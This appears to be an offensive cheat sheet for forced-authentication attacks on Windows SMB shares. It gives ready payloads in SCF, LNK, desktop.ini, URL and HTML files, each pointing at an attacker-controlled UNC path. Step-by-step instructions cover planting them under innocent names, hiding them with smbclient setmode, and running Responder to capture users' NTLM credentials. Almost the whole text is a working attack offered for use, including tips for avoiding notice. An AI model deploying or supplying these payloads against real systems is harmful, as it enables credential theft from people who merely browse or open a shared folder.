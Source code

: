 # Automatic on folder/share visit I: SCF Files
```
[Shell]
Command=2
IconFile=\\<ATTACKER_IP>\DesktopSettings.config
[Taskbar]
Command=ToggleDesktop
```
1. Put the contents into a non-suspicious file name like `@DesktopSettings.scf`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire up responder `responder -I eth0`

# Automatic on folder/share visit II: LNK Files
```powershell
$Output_For_Lnk = "$pwd\Database.lnk"
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut($Output_For_Lnk)
$lnk.TargetPath = "\\<ATTACKER_IP>\@DB"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Database"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
1. Run the PowerShell script, it will save the `.lnk` file in the current working directory
2. Place the file in the writable SMB share (won't work if hidden)
3. Fire up responder `responder -I eth0`

# Automatic on folder/share visit III: INI Files Inside System folders
```
[.ShellClassInfo]
IconResource=\\<ATTACKER_IP>\settings
```
1. save the file with the above contents inside a `desktop.ini` file
2. connect to the writable SMB share using `smbclient`
3. create a folder and give it a non-suspicious name using `mkdir`
4. set the folder attribute to be a system folder using `setmode <FOLDER> +s`
5. change int the new folder
6. upload the `desktop.ini` file `put <INI_FILE>`
7. make it a system file using `setmode <INI_FILE> +s`
8. and make it hidden using `setmode <INI_FILE> +h`
9. *overall,* it should like this:
```shell
smb: \> mkdir <FOLDER>
smb: \> setmode <FOLDER> +s
smb: \> cd <FOLDER>
smb: \> put <INI_FILE>
smb: \> setmode <INI_FILE> +s
smb: \> setmode <INI_FILE> +h
```
10. fire up responder `responder -I eth0`

# Works when *Selected*: URL files
```
[InternetShortcut]
URL=file://<ATTACKER_IP>/@IEsettings
```
1. Put the contents into a non-suspicious file name like `IESettings.url`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire up responder `responder -I eth0`

# Must be opened to work: HTML files (tested on IE & Chrome)
```
<img src="\\\\<ATTACKER_IP>\\img">
```
1. Put the contents into a non-suspicious file name like `bookmarks.html`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire up responder `responder -I eth0`

### Note
- you can hide any file when in an `smbclient` prompt using `setmode <FILE_NAM> +h`
- you can unhide any file when in an `smbclient` prompt using `setmode <FILE_NAM> -h`